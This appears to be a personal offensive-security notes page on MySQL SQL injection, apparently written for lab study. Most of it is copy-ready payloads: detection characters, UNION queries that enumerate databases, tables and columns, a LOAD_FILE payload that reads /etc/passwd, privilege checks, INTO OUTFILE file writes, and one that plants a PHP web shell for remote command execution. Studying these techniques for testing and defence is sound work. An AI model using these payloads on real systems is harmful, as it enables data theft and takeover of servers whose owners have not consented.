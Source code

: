 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQLi

## Assumptions

* IIS -> MSSQL
* Apache/Nginx -> MySQL

## SQLi Types



<figure><img src="../../../.gitbook/assets/sqli_types.png" alt=""><figcaption><p>Figure 1: SQL Injection types (imaged adapted from <a href="https://www.qafox.com/sql-injection-types/">here</a>).</p></figcaption></figure>

## Detection

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

## MySQL -  UNION Attack

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](sqli.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](sqli.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><img src="../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><img src="../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos1.png" alt=""><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos2.png" alt=""><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

### Basic Enumeration

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
The comment at the end includes a space: <mark style="background-color:red;">`--`</mark>` ``` ! The `#` `` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
</strong></code></pre>
{% endtab %}

{% tab title="Current DB" %}
```sql
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong>a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
</strong></code></pre>
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```sql
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

### Reading Local Files

The `FILE` privilege is needed to **READ** files.&#x20;

{% tabs %}
{% tab title="User (1)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user(), 3, 4-- 
</strong></code></pre>
{% endtab %}

{% tab title="User (2)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
</strong></code></pre>
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```sql
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

### Writing Files

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.&#x20;

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```sql
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```sql
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="137">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/course/preview/sql-injection-fundamentals" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/r/room/sqlinjectionlm" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% endtab %}
{% endtabs %}
